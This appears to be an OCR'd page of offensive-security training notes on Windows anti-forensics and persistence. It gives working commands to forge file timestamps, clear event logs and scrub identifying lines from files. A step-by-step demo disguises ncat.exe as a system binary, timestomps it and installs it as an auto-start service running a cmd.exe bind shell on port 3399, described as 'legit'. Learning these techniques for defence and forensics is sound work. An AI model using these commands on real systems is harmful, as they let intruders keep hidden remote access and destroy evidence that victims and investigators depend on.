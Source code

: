 ```
Get-ChildItem -path c:\windows\system32
# List all files within a directory
```
```
Get-ChildItem c:\windows\system32 -Force | Select-Object FullName, CreationTime,
LastAccessTime, LastWriteTime, Mode, Length
# Lists all files within a directory along with there timestamps and permissions
```
```
$(Get-Item file.ext).creationtime=$(date) |$(Get-Item test.txt).creationtime=$(Get-
Date)
# Sets the date for today
```
```
$(Get-Item file.ext).lastaccesstime=$(date) |$(Get-Item
test.txt).lastaccesstime=$(Get-Date "07/07/2004")
# Sets the date specified
```
```
$(Get-Item file.ext).lastwritetime=$(date) |$(Get-Item test.txt).lastwritetime=$(Get-
Date "07/07/2004 05:18 am")
# Sets the date and time as specified
```
**Clearing Logs and Files**

```
wevtutil clear-log Application
# Clears the application log, or a specified log
```
```
findstr /V “identifying_info” original_file > clean_file
# Removes lines that contain "identifying_info" from the orignal file and saves to
clean_file
```

```
Clear-Eventlog -Log Application, System
# Powershell command to clear the application and system log
```
```
DEMO: Windows Covering Tracks with Persistance
```
1. Place ncat.exe inside c:\windows\system32
    ◦ copy "c:\users\student\setup\fetchable\ncat.exe" c:\windows\system32
2. Find a .dll without a assocated exe dir c:\windows\system32. Lets use wksprtPS.dll
3. Grab wksprtPS.dll times.
    ◦ powershell -command "get-childitem c:\windows\system32\wksprtPS.dll -force | select-
       object creationtime,lastaccesstime,lastwrittime"
4. Rename ncat.exe to something that matches the dll
    ◦ rename ncat.exe wksprtzPS.exe
5. Show our renamed exe timestamps
    ◦ powershell -command "get-childitem c:\windows\system32\wksprtzPS.exe -force | select-
       object creationtime,lastaccesstime,lastwrittime"
6. Timestomp our exe to match the dll’s times
    ◦ powershell -command "$(Get-Item c:\windows\system32\wksprtzPS.exe).creationtime=$(Get-
       Date "3/05/2018 -hour 1 -minute 06 -second 11")"
    ◦ powershell -command "$(Get-Item c:\windows\system32\wksprtzPS.exe).lastaccesstime=$(Get-
       Date "3/05/2019 -hour 1 -minute 06 -second 11")"
7. Verify our timestamps.
    ◦ powershell -command "get-childitem c:\windows\system32\wksprtzPS.exe -force | select-
       object creationtime,lastaccesstime,lastwrittime"
8. Since we are installing a exe we can set it as a service. Utilizing a batch script to call our exe will
    cause errors and not work
       ◦ sc create RDPlite binpath= "cmd /C c:\windows\system32\wksprtzPS.exe -lp 3399 -e
          cmd.exe" type= own start= auto DisplayName= "RDPlite"
       ◦ sc description RDPlite "Nothing to see here I am legit"